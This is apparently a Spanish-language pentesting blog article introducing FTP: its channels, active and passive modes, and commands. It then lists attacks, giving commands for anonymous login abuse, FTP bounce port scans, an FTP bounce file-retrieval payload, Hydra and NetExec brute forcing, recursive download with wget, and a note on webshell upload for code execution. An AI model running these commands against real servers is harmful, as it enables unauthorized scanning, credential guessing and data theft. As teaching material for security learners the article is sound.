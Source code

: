 ```yaml
---
lang: es
title: "Introducción a FTP"
summary: "El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accedidos por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol)."
date: 2024-07-24
tag:
    - Ciberseguridad
    - Pentesting
    - FTP
---
```


El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accedidos por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol).

<!-- more -->

Si bien existen implementaciones con interfaz gráfica, en este artículo haremos uso de la herramienta de línea de comandos de FTP, la cual nos da bastante flexibilidad a la hora de trabajar con el protocolo. En artículos posteriores exploraremos las principales implementaciones de cliente y servidor, aunque en este nos centraremos en explicar los conceptos básicos del protocolo, como trabajar con él y como aprovechar algunas malas configuraciones.


## Teoría

### Canales de comunicación

Para el funcionamiento de FTP se requieren de dos canales de comunicación, uno para el envío de comandos y otro para los datos.

### Modos de conexión

#### Activo

Es el modo de conexión predeterminado para las conexiones FTP, en él ocurren dos eventos:

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se intenta abrir una conexión desde el puerto de datos del servidor (20 por defecto) al puerto P+1 del cliente.

!!! nota

    El modo activo puede presentar problemas con los firewalls del cliente debido a que intenta crear una conexión directa a un puerto del lado cliente, lo cual puede ser bloqueado por ciertos firewalls.


#### Pasivo

Este modo surge como solución al problema de los firewalls del cliente, aquí se modifica el flujo de trabajo de modo que tanto la conexión de datos como la conexión del cliente se inician desde el cliente, podemos desglosarlo en dos eventos.

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se abre una conexión de datos desde el puerto P+1 del cliente a un puerto del canal de datos del servidor, este proceso se repite para cada transferencia de archivos ocupando un puerto distinto del servidor en cada conexión (esto puede ser configurado en la mayoría de los software del lado servidor) .

!!! nota

    El modo pasivo requiere de la apertura de un rango de puertos en el firewall, esto puede generar algunos problemas de seguridad si esta apertura de puertos no se configura de manera correcta.


## Comandos FTP

```bash
CWD  -> Cambia el directorio actual por el especificado
DELE -> Elimina el archivo especificado
EPRT -> Establecer un socket para la conexión de datos
LIST -> Lista los archivos en el directorio actual
PASV -> Cambia el modo a pasivo
PWD  -> Muestra el directorio actual 
RETR -> Descarga el archivo especificado
```

## Anonymous login

Existe una configuración de FTP que permite el uso de un login para compartir ficheros para cualquier usuario que lo requiera, en caso de que esta configuración este habilitada un usuario podría usar anonymous como nombre de inicio de sesión y cualquier contraseña acceder al servidor como un usuario con bajos privilegios, aunque en ciertos casos esto puede llevar a comprometer el sistema entero.

## FTP Bounce port scan

Es posible abusar de los comandos PORT y ERPT para realizar un escaneo de puertos abiertos mediante un servidor FTP.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Una vez conectado podemos realizar el escaneo de puertos mediante los comandos PORT y ERPT seguidos de un comando LIST .

Aquí tenemos un ejemplo para escanear el puerto 9091 del host 10.10.10.14

```bash
PORT 10,10,10,14,0,9091
EPRT |2|10.10.10.14|9091|

LIST
```

Si la respuesta es un 150 el puerto está abierto, en caso de recibir un 415 el puerto está cerrado.

## FTP Bounce file get

Este ataque permite a un atacante descargar ficheros de un servidor FTP no accesible por el atacante, pero al que sí puede llegar un servidor FTP accesible por el atacante

![Net Diagram](../../../assets/posts/2024/11/14/net_diagram.png)

Este ataque tiene los siguientes prerequisitos:

- Credenciales válidas para External FTP.
- Credenciales válidas para Internal FTP.
- Acceso de escritura para External FTP.
- Permisos de ejecución del comando PORT tanto en External como en Internal.

Primero que nada desplegaremos un servidor FTP en la máquina del atacante, este servidor tiene que soportar el modo pasivo.

Una vez desplegado abriremos una conexión pasiva con el comando PASV y le diremos que la guarde con STOR output.ext .

Ahora crearemos un archivo con los comandos que queremos lanzar contra el segundo servidor, un ejemplo seria el siguiente:

```bash
user ftp   # Usuario para el servidor internal
pass password # Password para el servidor internal
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #Nuestro puerto pasivo
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Ahora lo subimos con PUT y desde el servidor externo ejecutamos los siguientes comandos:

```bash
put payload
quote "port C,C,C,C,0,21" # IP del servidor interno
quote "retr payload"
```

Tras esto tendremos el archivo file.ext en nuestro servidor como output.ext

## Ataque por fuerza bruta

Muchos de los servidores FTP no presentan protección contra ataques por fuerza bruta. Teniendo un usuario o una lista de ellos podemos llevar a cabo un ataque de fuerza bruta con diferentes credenciales obtenidas de diversas fuentes, si bien existen varias herramientas para este fin, las dos más comunes son NetExec e Hydra. 

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Backup sorpresa

Esto no es un ataque per se, pero es bastante útil, ya que nos permite descargar todos los archivos accesibles del servidor mediante un solo comando.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

En determinadas circunstancias, el permiso para subir ficheros al servidor junto a otras malas configuraciones puede llevar a la obtención de ejecución remota de comandos en el servidor.

El caso más común es la posibilidad de subir ficheros que van a ser luego servidos por un servidor web, donde podríamos subir una webshell interpretable por el servidor para lograr obtener ejecución de comandos.

## Sniffing credentials

Dado que FTP funciona por defecto en texto plano, es posible para un atacante en la misma red usar un sniffer y capturar tanto las credenciales como la conversación FTP.


En el próximo artículo de esta serie sobre FTP hablaremos sobre fallos comunes de implementación y algunas vulnerabilidades conocidas de algunas implementaciones del protocolo.

---

